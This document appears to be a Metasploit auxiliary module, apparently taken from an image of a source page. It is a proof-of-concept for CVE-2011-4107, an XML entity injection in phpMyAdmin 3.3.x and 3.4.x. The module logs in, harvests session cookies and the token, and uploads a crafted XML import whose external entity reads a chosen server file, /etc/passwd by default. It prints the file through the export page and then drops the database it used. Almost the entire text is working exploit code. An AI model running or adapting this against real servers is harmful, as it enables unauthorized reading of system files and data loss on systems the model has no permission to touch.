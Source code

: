 POC
---

    ##
    # $Id$
    ##

    ##
    # This file is part of the Metasploit Framework and may be subject to
    # redistribution and commercial restrictions. Please see the Metasploit
    # Framework web site for more information on licensing and terms of use.
    # http://metasploit.com/framework/
    ##

    require 'msf/core'

    class Metasploit3 < Msf::Auxiliary

        include Msf::Exploit::Remote::HttpClient

        def initialize
            super(
                'Name'        => 'phpMyAdmin 3.3.X and 3.4.X - Local File Inclusion',
                'Version'     => '1.0',
                'Description' => %q{CVE-2011-4107 PoC - Importing a specially-crafted XML file which contains an XML entity injection permits to retrieve a local file (limited by the privileges of the user running the web server).
                The attacker must be logged in to MySQL via phpMyAdmin.
                Works on Windows and Linux Versions 3.3.X and 3.4.X},
                'References'  =>
                    [
                        [ 'CVE', '2011-4107' ],
                                            [ 'OSVDB', '76798' ],
                                            [ 'BID', '50497' ],
                                            [ 'URL', 'http://www.secforce.com/blog/2012/01/cve-2011-4107-poc-phpmyadmin-local-file-inclusion-via-xxe-injection'],
                    ],
                'Author'      => [ 'Marco Batista' ],
                'License'     => MSF_LICENSE
                )

            register_options(
                [
                    Opt::RPORT(80),
                    OptString.new('FILE', [ true,  "File to read", '/etc/passwd']),
                    OptString.new('USER', [ true,  "Username", 'root']),
                    OptString.new('PASS', [ false,  "Password", 'password']),
                    OptString.new('DB', [ true,  "Database to use/create", 'hddaccess']),
                    OptString.new('TBL', [ true,  "Table to use/create and read the file to", 'files']),
                    OptString.new('APP', [ true,  "Location for phpMyAdmin URL", '/phpmyadmin']),
                    OptString.new('DROP', [ true,  "Drop database after reading file?", 'true']),
                ],self.class)
        end

        def loginprocess
            # HTTP GET TO GET SESSION VALUES
            getresponse = send_request_cgi({
                'uri'     => datastore['APP']+'/index.php',
                'method'  => 'GET',
                'version' => '1.1',
                }, 25)

            if (getresponse.nil?)
                print_error("no response for #{ip}:#{rport}")
            elsif (getresponse.code == 200)
                print_status("Received #{getresponse.code} from #{rhost}:#{rport}")
            elsif (getresponse and getresponse.code == 302 or getresponse.code == 301)
                print_status("Received 302 to #{getresponse.headers['Location']}")
            else
                print_error("Received #{getresponse.code} from #{rhost}:#{rport}")
            end

            valuesget = getresponse.headers["Set-Cookie"]
            varsget = valuesget.split(" ")

            #GETTING THE VARIABLES NEEDED
            phpMyAdmin = varsget.grep(/phpMyAdmin/).last
            pma_mcrypt_iv = varsget.grep(/pma_mcrypt_iv/).last
            # END HTTP GET

            # LOGIN POST REQUEST TO GET COOKIE VALUE
            postresponse = send_request_cgi({
                'uri'     => datastore['APP']+'/index.php',
                'method'  => 'POST',
                'version' => '1.1',
                'headers' =>{
                        'Content-Type' => 'application/x-www-form-urlencoded',
                        'Cookie' => "#{pma_mcrypt_iv} #{phpMyAdmin}"
                                },
                'data'    => 'pma_username='+datastore['USER']+'&pma_password='+datastore['PASS']+'&server=1'
                }, 25)

            if (postresponse["Location"].nil?)
                print_status("TESTING#{postresponse.body.split("'").grep(/token/).first.split("=").last}")
                tokenvalue = postresponse.body.split("'").grep(/token/).first.split("=").last
            else
                tokenvalue = postresponse["Location"].split("&").grep(/token/).last.split("=").last
            end


            valuespost = postresponse.headers["Set-Cookie"]
            varspost = valuespost.split(" ")

            #GETTING THE VARIABLES NEEDED
            pmaUser = varspost.grep(/pmaUser-1/).last
            pmaPass = varspost.grep(/pmaPass-1/).last

            return "#{pma_mcrypt_iv} #{phpMyAdmin} #{pmaUser} #{pmaPass}",tokenvalue
            # END OF LOGIN POST REQUEST
            rescue ::Rex::ConnectionRefused, ::Rex::HostUnreachable, ::Rex::ConnectionTimeout, Rex::ConnectionError =>e
                print_error(e.message)
            rescue Timeout::Error, Errno::EINVAL, Errno::ECONNRESET, EOFError, Errno::ECONNABORTED, Errno::ECONNREFUSED, Errno::EHOSTUNREACH =>e
                print_error(e.message)
        end

        def readfile(cookie,tokenvalue)
            #READFILE TROUGH EXPORT FUNCTION IN PHPMYADMIN
            getfiles = send_request_cgi({
                'uri'     => datastore['APP']+'/export.php',
                'method'  => 'POST',
                'version' => '1.1',
                'headers' =>{
                        'Cookie' => cookie
                            },
                'data'    => 'db='+datastore['DB']+'&table='+datastore['TBL']+'&token='+tokenvalue+'&single_table=TRUE&export_type=table&sql_query=SELECT+*+FROM+%60files%60&what=texytext&texytext_structure=something&texytext_data=something&texytext_null=NULL&asfile=sendit&allrows=1&codegen_structure_or_data=data&texytext_structure_or_data=structure_and_data&yaml_structure_or_data=data'
                }, 25)

            if (getfiles.body.split("\n").grep(/== Dumping data for table/).empty?)
                print_error("Error reading the file... not enough privilege? login error?")
            else
                print_status("#{getfiles.body}")
            end
        end


        def dropdatabase(cookie,tokenvalue)
            dropdb = send_request_cgi({
                'uri'     => datastore['APP']+'/sql.php?sql_query=DROP+DATABASE+%60'+datastore['DB']+'%60&back=db_operations.php&goto=main.php&purge=1&token='+tokenvalue+'&is_js_confirmed=1&ajax_request=false',
                'method'  => 'GET',
                'version' => '1.1',
                'headers' =>{
                        'Cookie' => cookie
                            },
                }, 25)

                print_status("Dropping database: "+datastore['DB'])
        end

        def run
            cookie,tokenvalue = loginprocess()

            print_status("Login at #{datastore['RHOST']}:#{datastore['RPORT']}#{datastore['APP']} using #{datastore['USER']}:#{datastore['PASS']}")

            craftedXML =  "------WebKitFormBoundary3XPL01T\n"
            craftedXML << "Content-Disposition: form-data; name=\"token\"\n\n"
            craftedXML << tokenvalue+"\n"
            craftedXML << "------WebKitFormBoundary3XPL01T\n"
            craftedXML << "Content-Disposition: form-data; name=\"import_type\"\n\n"
            craftedXML << "server\n"
            craftedXML << "------WebKitFormBoundary3XPL01T\n"
            craftedXML << "Content-Disposition: form-data; name=\"import_file\"; filename=\"exploit.xml\"\n"
            craftedXML << "Content-Type: text/xml\n\n"
            craftedXML << "<?xml version=\"1.0\" encoding=\"utf-8\"?>\n"
            craftedXML << "<!DOCTYPE ficheiro [  \n"
            craftedXML << "  <!ENTITY conteudo SYSTEM \"file:///#{datastore['FILE']}\" > ]>\n"
            craftedXML << "<pma_xml_export version=\"1.0\" xmlns:pma=\"http://www.phpmyadmin.net/some_doc_url/\">\n"
            craftedXML << "    <pma:structure_schemas>\n"
            craftedXML << "        <pma:database name=\""+datastore['DB']+"\" collation=\"utf8_general_ci\" charset=\"utf8\">\n"
            craftedXML << "            <pma:table name=\""+datastore['TBL']+"\">\n"
            craftedXML << "                CREATE TABLE `"+datastore['TBL']+"` (`file` varchar(20000) NOT NULL);\n"
            craftedXML << "            </pma:table>\n"
            craftedXML << "        </pma:database>\n"
            craftedXML << "    </pma:structure_schemas>\n"
            craftedXML << "    <database name=\""+datastore['DB']+"\">\n"
            craftedXML << "        <table name=\""+datastore['TBL']+"\">\n"
            craftedXML << "            <column name=\"file\">&conteudo;</column>\n"
            craftedXML << "        </table>\n"
            craftedXML << "    </database>\n"
            craftedXML << "</pma_xml_export>\n\n"
            craftedXML << "------WebKitFormBoundary3XPL01T\n"
            craftedXML << "Content-Disposition: form-data; name=\"format\"\n\n"
            craftedXML << "xml\n"
            craftedXML << "------WebKitFormBoundary3XPL01T\n"
            craftedXML << "Content-Disposition: form-data; name=\"csv_terminated\"\n\n"
            craftedXML << ",\n\n"
            craftedXML << "------WebKitFormBoundary3XPL01T--"


            print_status("Grabbing that #{datastore['FILE']} you want...")
            res = send_request_cgi({
                'uri'     => datastore['APP']+'/import.php',
                'method'  => 'POST',
                'version' => '1.1',
                'headers' =>{
                        'Content-Type' => 'multipart/form-data; boundary=----WebKitFormBoundary3XPL01T',
                        'Cookie' => cookie
                            },
                'data'    => craftedXML
            }, 25)

            readfile(cookie,tokenvalue)

            if (datastore['DROP'] == "true")
                dropdatabase(cookie,tokenvalue)
            else
                print_status("Database was not dropped: "+datastore['DB'])
            end

        end
    end